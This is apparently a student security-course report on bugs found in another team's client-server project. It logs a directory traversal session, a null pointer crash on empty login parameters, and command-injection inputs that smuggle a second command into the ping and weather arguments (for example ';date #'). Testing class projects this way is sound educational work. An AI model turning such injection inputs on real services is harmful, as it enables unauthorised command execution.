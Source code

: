 ## Team7

### Directory Traversal

* No home folders created ?
```
login n
Enter password
pass 1
You've logged in
ls
total 468
-rwxr-x--- 1 njaganna njaganna 116840 Mar 15 18:53 client
-rw-rw-r-- 1 njaganna njaganna  35147 Mar 14 19:49 LICENSE
-rw-rw-r-- 1 njaganna njaganna   1037 Mar 14 19:49 Makefile
drwxr-x--- 2 njaganna njaganna   4096 Mar 15 18:53 obj
-rwxr-x--- 1 njaganna njaganna 305200 Mar 15 18:53 server
-rw-rw-r-- 1 njaganna njaganna    328 Mar 15 19:22 sploit.conf
drwxrwxr-x 2 njaganna njaganna   4096 Mar 14 19:49 src
cd ..
/u/antor/u6/njaganna/CS527Phase2/team7
cd ..
/u/antor/u6/njaganna/CS527Phase2
cd /
/

```

### Command Injection

* ping command doesn't filter ';'

```
ping google.com -c 1";date #"
Thu Mar 15 20:14:21 EDT 2018
```

* weather also has a similar vulnerability
```
weather gotham";date #"
Thu Mar 15 20:21:34 EDT 2018
```

###  Null pointer reference

* login and pass commands do not check if parameters are present or not. This causes the server to crash.
```
```
